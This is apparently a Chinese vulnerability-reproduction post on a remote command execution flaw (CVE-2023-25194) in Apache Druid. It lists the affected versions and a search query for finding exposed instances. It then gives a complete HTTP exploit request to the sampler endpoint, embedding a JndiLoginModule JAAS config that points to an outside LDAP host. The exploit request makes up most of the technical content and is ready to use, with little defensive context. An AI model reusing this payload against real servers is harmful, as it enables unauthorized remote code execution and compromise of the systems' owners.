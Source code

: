 # Apace Druid存在 远程命令执行漏洞(CVE-2023-25194)

# 一、漏洞简介
<font style="color:rgb(36, 41, 46);">Apache Druid是一个实时分析型数据库，旨在对大型数据集进行快速的查询分析（"OLAP"查询)。Druid最常被当做数据库来用以支持实时摄取、高性能查询和高稳定运行的应用场景，同时，Druid也通常被用来助力分析型应用的图形化界面，或者当做需要快速聚合的高并发后端API，Druid最适合应用于面向事件类型的数据。Apace Druid存在 远程命令执行漏洞(CVE-2023-25194)</font>

# <font style="color:rgb(36, 41, 46);">二、影响版本</font>
+ 0.19.0 <= Apache Druid <= 25.0.0

# 三、资产测绘
```java
title="Apache Druid"
```

![1718117306587-20ca98cb-dc58-4025-8a8b-2a7a2a1ee289.png](./img/XPRtC17bmvqPfx-1/1718117306587-20ca98cb-dc58-4025-8a8b-2a7a2a1ee289-439817.png)

# 四、漏洞复现
```java
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 
Content-Length: 1400
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://vps:8888
Referer: http://vps:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pZaf_2132_ulastactivity=050484OuqAxDqETcOja26QKgFkE4HbrlSk4NbAkGRg9oNLIbkCUN; pZaf_2132_nofavfid=1; pZaf_2132_smile=1D1; pZaf_2132_home_readfeed=1682214968; pZaf_2132_lastviewtime=1%7C1682215445; pZaf_2132_lastcheckfeed=1%7C1682217817; kOJf_2132_saltkey=MGWItu8r; kOJf_2132_lastvisit=1683339017; kOJf_2132_ulastactivity=27e4qsFumyqDRGo03vcLLEHChJmZRharD1jfbUJnU1NIIIrbB8UL; kOJf_2132_nofavfid=1; kOJf_2132_lastcheckfeed=1%7C1683342726; PHPSESSID=3543e022151ed94117e84216
Connection: close

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://wuriedscos.dgrh3.cn\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![1718119163845-f6728f22-d36c-4d3c-b141-603b89a28b4c.png](./img/XPRtC17bmvqPfx-1/1718119163845-f6728f22-d36c-4d3c-b141-603b89a28b4c-459554.png)



> 更新: 2024-06-17 09:22:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bfg6tey47m6g5aaa>